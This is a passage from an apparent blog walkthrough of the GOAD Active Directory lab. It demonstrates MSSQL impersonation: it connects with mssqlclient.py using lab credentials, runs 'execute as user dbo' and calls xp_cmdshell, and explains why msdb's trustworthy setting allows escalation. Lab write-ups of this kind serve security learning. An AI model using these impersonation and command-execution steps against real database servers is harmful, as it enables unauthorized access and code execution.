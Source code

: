 ```
enum_impersonate
```

![mssql_impersonate_sa.png](/assets/blog/GOAD/mssql_impersonate_sa.png)

- As sysadmin user (sa), we can see all the information in the database and so the others users with impersonation privileges.
- Another way to get in could be to access as brandon.stark and do `execute as login` on user jon.snow.

### impersonate - execute as user

- We launch a connection to the db as arya.stark :

```bash
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local
```

- if we use master db and impersonate user dbo we can't get a shell

```sql
use master
execute as user = "dbo"
exec master..xp_cmdshell 'whoami'
```

![mssql_arya_execas_masterdbo.png](/assets/blog/GOAD/mssql_arya_execas_masterdbo.png)

- but our user also got impersonate user privilege on dbo user on database msdb

![mssql_arya_impersonate.png](/assets/blog/GOAD/mssql_arya_impersonate.png)

- The difference between the two databases is that msdb got the trustworthy property set (default value on msdb).

